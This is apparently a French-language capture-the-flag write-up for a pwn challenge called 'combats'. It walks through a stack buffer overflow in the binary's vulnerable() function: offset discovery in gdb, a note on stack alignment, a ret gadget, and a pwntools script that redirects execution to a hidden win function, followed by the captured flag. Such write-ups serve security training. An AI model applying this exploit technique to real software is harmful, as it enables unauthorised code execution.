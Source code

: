 # WriteUp

## Analyse de l'ELF

```bash
$ checksec combats
[*] '/tmp/combats'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```

En décompilant via Ghidra, nous voyons 2 fonctions intéressantes, vulnerable et guerrier :

![Liste des fonctions](combats1.png)

La fonction main() ne semble pas appeler guerrier() :

![Décompilation de main()](combats2.png)

La fonction guerrier() est intéressante puisqu'elle nous permet d'exécuter un "cat flag.txt" :

![Décompilation de guerrier()](combats3.png)

La fonction vulnerable() déclare une variable de 128 octets mais semble en stocker  bien plus...

![Décompilation de vulnerable()](combats4.png)

Regardons cela dans gdb en insérant une large entrée :

```bash
gdb-peda$ pattern_create 256
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G'
gdb-peda$ r
Starting program: /tmp/combats
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Ceux qui osent défier l'esprit du combat doivent être prêts à tout risquer. Le moindre faux mouvement peut vous conduire à la défaite. Préparez-vous, car le combat sera rude.
> AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G

Program received signal SIGSEGV, Segmentation fault.
Warning: 'set logging off', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled off'.

Warning: 'set logging on', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled on'.
[----------------------------------registers-----------------------------------]
RAX: 0x100
RBX: 0x0
RCX: 0x7ffff7ea07e2 (<__GI___libc_read+18>:     cmp    rax,0xfffffffffffff000)
RDX: 0x100
RSI: 0x7fffffffdbf0 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA"...)
RDI: 0x0
RBP: 0x6c41415041416b41 ('AkAAPAAl')
RSP: 0x7fffffffdc78 ("AAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G\205\224\372\310\313\351\274ą\224\062˂\371\274", <incomplete sequence \304>)
RIP: 0x401240 (<vulnerable+67>: ret)
R8 : 0xb8
R9 : 0x7ffff7fc9040 (<_dl_fini>:        endbr64)
R10: 0x7ffff7d925e8 --> 0xf001200001a64
R11: 0x246
R12: 0x7fffffffdda8 --> 0x7fffffffe02d ("/tmp/combats")
R13: 0x401241 (<main>:  push   rbp)
R14: 0x403df0 --> 0x401150 (endbr64)
R15: 0x7ffff7ffd040 --> 0x7ffff7ffe2e0 --> 0x0
EFLAGS: 0x10207 (CARRY PARITY adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x401239 <vulnerable+60>:    call   0x401070 <read@plt>
   0x40123e <vulnerable+65>:    nop
   0x40123f <vulnerable+66>:    leave
=> 0x401240 <vulnerable+67>:    ret
   0x401241 <main>:     push   rbp
   0x401242 <main+1>:   mov    rbp,rsp
   0x401245 <main+4>:   sub    rsp,0x10
   0x401249 <main+8>:   mov    DWORD PTR [rbp-0x4],edi
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdc78 ("AAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G\205\224\372\310\313\351\274ą\224\062˂\371\274", <incomplete sequence \304>)
0008| 0x7fffffffdc80 ("RAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G\205\224\372\310\313\351\274ą\224\062˂\371\274", <incomplete sequence \304>)
0016| 0x7fffffffdc88 ("ApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G\205\224\372\310\313\351\274ą\224\062˂\371\274", <incomplete sequence \304>)
0024| 0x7fffffffdc90 ("AAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G\205\224\372\310\313\351\274ą\224\062˂\371\274", <incomplete sequence \304>)
0032| 0x7fffffffdc98 ("VAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G\205\224\372\310\313\351\274ą\224\062˂\371\274", <incomplete sequence \304>)
0040| 0x7fffffffdca0 ("AuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G\205\224\372\310\313\351\274ą\224\062˂\371\274", <incomplete sequence \304>)
0048| 0x7fffffffdca8 ("AAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G\205\224\372\310\313\351\274ą\224\062˂\371\274", <incomplete sequence \304>)
0056| 0x7fffffffdcb0 ("ZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G\205\224\372\310\313\351\274ą\224\062˂\371\274", <incomplete sequence \304>)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0000000000401240 in vulnerable ()
```

Nous voyons que nous parvenons à écrire sur RSP à l'offset 136, cela signifie que nous contrôlons l'adresse de la fonction suivant l'exécution de la fonction vulnerable() (après son ret). Voyons à quel offset :

```bash
gdb-peda$ pattern_search
Registers contain pattern buffer:
RBP+0 found at offset: 128
Registers point to pattern buffer:
[RSI] --> offset 0 - size ~203
[RSP] --> offset 136 - size ~194
[...]
```

Nous devons aussi vérifier si la stack est bien alignée, en effet, si la valeur de rsp n'est pas divisible par 0x10 (16 en hexadécimal), la suite de l'exécution ne se passera pas comme nous le souhaiterions en fonction de l'adresse de la fonction qui se retrouvera au sommet de la pile.

<details>
  <summary>Pourquoi aligner la stack ?</summary>
Lorsque nous exploitons une vulnérabilité de buffer overflow pour rediriger l'exécution vers une fonction spécifique comme guerrier(), il est crucial de prendre en compte l'alignement de la pile (stack) pour assurer le bon fonctionnement du programme.

Dans l'architecture x86_64, la convention d'appel (ABI - Application Binary Interface) stipule que le pointeur de pile ($rsp) doit être aligné sur 16 octets avant l'appel d'une fonction. Cet alignement est nécessaire car de nombreuses instructions SSE et certaines fonctions de la bibliothèque standard C supposent que la pile est correctement alignée. Si cet alignement n'est pas respecté, cela peut entraîner des comportements indéfinis, des plantages ou des erreurs d'exécution.

Dans notre cas, en écrasant $rsp avec l'adresse de la fonction guerrier(), nous redirigeons effectivement le flux d'exécution vers cette fonction. Cependant, le buffer overflow et l'écrasement du pointeur de pile peuvent désaligner la pile. Cela signifie que lorsque guerrier() est appelée, la pile n'est plus alignée sur 16 octets comme l'exige l'ABI.

Lorsque guerrier() exécute puts("Félicitations, jeune guerrier, votre bravoure mérite les honneurs..."), cette fonction de la bibliothèque standard s'attend à ce que la pile soit correctement alignée. Si ce n'est pas le cas, elle peut fonctionner partiellement (afficher "victoire") mais rencontrer des problèmes lors d'appels internes ou de l'exécution d'instructions SSE, ce qui peut entraîner un arrêt du programme ou sa sortie prématurée après le puts().

Pour résoudre ce problème d'alignement, il est nécessaire de :

Ajuster l'alignement de la pile : Modifier notre payload pour ajouter du remplissage (padding) afin de réaligner $rsp sur un multiple de 16 octets avant l'appel à guerrier(). Cela garantit que toutes les fonctions appelées au sein de guerrier() trouvent la pile dans l'état attendu.
Utiliser une autre méthode d'exploitation : Comme vous l'avez mentionné, injecter directement l'adresse des instructions qui préparent les arguments pour system() et effectuer l'appel peut contourner le problème d'alignement, car nous contrôlons précisément l'état de la pile et pouvons nous assurer qu'elle est correctement alignée.
En résumé, le souci d'alignement de la pile provient du fait que les conventions d'appel en x86_64 exigent un alignement spécifique pour garantir le bon fonctionnement des fonctions. Ne pas respecter cet alignement lors de l'exploitation d'un buffer overflow peut conduire à des comportements imprévus ou à des plantages, ce qui nécessite des ajustements spécifiques dans notre méthode d'exploitation pour assurer la réussite de l'attaque.
</details>


```bash
gdb-peda$ p/x $rsp
$1 = 0x7fffffffdc78
```

0x7fffffffdc78 % 0x10 = 0x8, nous devrons donc aligner la stack avant d'appeler l'adresse d'une fonction, au hasard guerrier() 😅. Pour cela, il suffit d'exécuter une instruction ret avant de spécifier l'adresse de guerrier() dans le payload.

## Récupération d'un gadget ret

La pile étant non exécutable (NX) et l'ASLR étant sûrement activée, nous devons trouver un gadget ret dans la section statique du programme.

```bash
❯ ROPgadget --binary combats | grep ret
[...]
0x000000000040101a : ret
[...]
```

## Récupération de l'adresse de la fonction "guerrier"

```bash
❯ readelf -s combats | grep guerrier
    30: 00000000004011d8    37 FUNC    GLOBAL DEFAULT   14 guerrier
```

Il suffit donc de remplir le buffer avec 136 octets de n'importe quoi, puis l'adresse vers ret (0x40101a) pour aligner la pile puis l'adresse vers guerrier() (0x4011d8) pour qu'elle soit appelée.

## Exploit

```python
#!/usr/bin/env python3

import sys
from pwn import *

context(arch="amd64", os="linux", endian="little", word_size=64)

p = remote("challenges.hackagou.nc", 5003)

guerrier_addr = 0x4011d8
ret_addr = 0x40101a

payload = b'A' * 136
payload += p64(ret_addr)
payload += p64(guerrier_addr)

p.readuntil(b'> ')
p.sendline(payload)
p.interactive()
```
```bash
$ python pwn-combats.py
[+] Opening connection to challenges.hackagou.nc on port 5003: Done
[*] Switching to interactive mode
Félicitations, jeune guerrier, votre bravoure mérite les honneurs...
OPENNC{L3_GU3RR13r_c0mb47_4v3C_H0nN3uR.}
[*] Got EOF while reading in interactive
```
